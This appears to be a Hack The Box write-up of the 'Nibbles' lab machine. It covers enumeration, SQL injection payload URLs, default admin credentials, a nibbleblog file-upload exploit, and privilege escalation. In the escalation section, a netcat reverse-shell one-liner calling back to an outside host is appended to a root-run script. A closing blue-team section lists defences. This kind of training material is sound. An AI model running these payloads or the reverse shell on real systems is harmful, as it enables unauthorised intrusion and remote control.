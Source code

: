 ```yaml
---
title: "Nibbles"
date: 2024-07-20
categories: HTB
description: "HTB Nibbles walkthrough showcasing default credential abuse, PHP reverse shell deployment, and root escalation via writable root-executed script."
tags: [php-upload, cms, reverse-shell, privilege-escalation, linux]
---
```


Nibbles simulates a lightweight web server hosting a blog engine vulnerable to hardcoded credentials and file upload flaws.

Access was gained using default creds, followed by uploading a PHP reverse shell through a poorly secured admin panel.

File extension filtering was easily bypassed with common tricks, demonstrating the importance of proper server-side validation.

Escalated to root by modifying a root-owned script in a user-writable directory that was executed on login.

## Why I Chose This Machine

I selected Nibbles because it simulates a simple yet realistic developer misconfiguration scenario involving a custom CMS and insecure script permissions.  
It’s well suited for practicing file upload bypass, source review, and local enumeration for privilege escalation.

## Attack Flow Overview

1. Discovered a custom CMS and accessed its admin interface using default credentials  
2. Uploaded a reverse shell disguised as a `.php` file  
3. Gained a shell and switched to `nibbles` user via credential reuse  
4. Found a root-owned script in a writable directory and injected a reverse shell command to escalate privileges

This attack chain reflects common real-world scenarios in small dev environments.

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### HTTP

![screenshot](/assets/images/nibbles1.png)

![screenshot](/assets/images/nibbles2.png)

#### `/nibbleblog/`

![screenshot](/assets/images/nibbles3.png)

![screenshot](/assets/images/nibbles4.png)

####  `/nibbleblog/admin/`

![screenshot](/assets/images/nibbles5.png)

http://10.10.10.75/nibbleblog/plugins/about/plugin.bit

![screenshot](/assets/images/nibbles6.png)

>nibbleblog 3.7

#### Fuzzing

```sh
# subdomain
ffuf -u http://10.10.10.75 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

# dir
feroxbuster -u http://10.10.10.75/nibbleblog -C 404 -A -e -S 0 --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -o nibbleblog_ferox
```

http://10.10.10.75/nibbleblog/content/private/users.xml

![screenshot](/assets/images/nibbles8.png)

## Foothold

### SQLi

https://www.exploit-db.com/exploits/35865

![screenshot](/assets/images/nibbles7.png)

```sh
# original 1
http://10.10.10.75/nibbleblog/index.php?page=admin' OR 1=1 -- //

# URL encoded
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1%20--%20//

# URL encoded 2 
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1;--%20-

# original 2
http://10.10.10.75/nibbleblog/index.php?idpost=admin%20OR%201=1%20--%20/

```
### Admin portal

![screenshot](/assets/images/nibbles10.png)

![screenshot](/assets/images/nibbles9.png)

>`admin : nibbles`

![screenshot](/assets/images/nibbles11.png)

nibbleblog version 4.0.3

### https://github.com/hadrian3689/nibbleblog_4.0.3

![screenshot](/assets/images/nibbles12.png)

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

![screenshot](/assets/images/nibbles13.png)

Upload the shell to Plugins : My Image

![screenshot](/assets/images/nibbles14.png)

Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![screenshot](/assets/images/nibbles15.png)

Click Image.php

![screenshot](/assets/images/nibbles16.png)

## Privilege Escalation

### Enumeration

![screenshot](/assets/images/nibbles17.png)

### Attempts

```sh
# Inserting a reverse shell one-liner in a script
echo >> monitor.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f" >> monitor.sh
```

![screenshot](/assets/images/nibbles18.png)

![screenshot](/assets/images/nibbles19.png)

## Alternative Paths Explored

Initially attempted directory traversal and XSS, which were blocked.  
Also explored cron jobs, SUID binaries, and sudo rights but none were exploitable.  
Success came from inspecting the user's home directory and finding a carelessly exposed script executed by root.

## Blue Team Perspective

Nibbles shows how weak admin credential practices and script permission issues can be chained into a full compromise.  
To defend against this:

- Never deploy apps with default credentials  
- Isolate root-owned scripts from user-writeable paths  
- Monitor `.bashrc` and other user-startup artifacts for malicious commands